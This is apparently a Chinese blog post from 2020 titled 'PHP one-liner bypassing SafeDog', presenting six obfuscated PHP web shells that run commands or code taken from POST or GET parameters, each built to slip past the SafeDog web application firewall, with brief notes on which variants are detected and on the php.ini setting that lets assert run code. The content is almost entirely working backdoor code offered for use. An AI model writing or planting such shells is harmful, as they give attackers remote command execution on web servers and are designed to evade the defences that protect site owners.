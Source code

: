 ---

# [2020/08/01]PHP一句话过狗

测试环境：

windows7

phpstudy8.1.0.1

网站安全狗(APACHE版)V4.0正式版

## 1.array

```php
<?php
    //PHP7
    $a = array('0xxxx','sys');
    $b = array('tem','ssss');
    ($a[1].$b[0])($_POST['a']);
?>
```

## 2.

```php
<?php
    //PHP5
    $a="assert";
    @"${$a($_POST['a'])}";
?>
```

## 3.ini_get

```php
<?php
    //PHP7
    ini_set("open_basedir",$_POST['a']);//"system");
    ini_get("open_basedir")($_POST['b']);//("net user");
?>
```

## 4.__call

```php
<?php
    //PHP5
    class evil{function __call($O,$o){$O($_POST['a']);}}
    $v = new evil();
    $v->assert();
?>
```

## 5.define

```php
<?php
    //PHP7
    @define("PHP",$_POST['a']);
    @define("FIVE","system",true);
    @constant("FiVe")/*sfdf*/(PHP);
?>
```

## 6 assert

```php
<?php
//PHP5,7
$_ = $_GET['a'];
$b = "eval";
function a($a){return @assert($a);}
a("@$b(\"$_\")");
?>
```

​	熟悉的assert在PHP7中又回来了。然而有趣的是完整的assert检测不出来，拆分成"ass"."ert"时反而被检测出来了

在PHP7配置文件php.ini中zend.assertions=1时可以执行PHP代码，windows下默认等于1，Linux下默认等于-1

![image-20200801134629197](images/image-20200801134629197.png)

目前就这么多了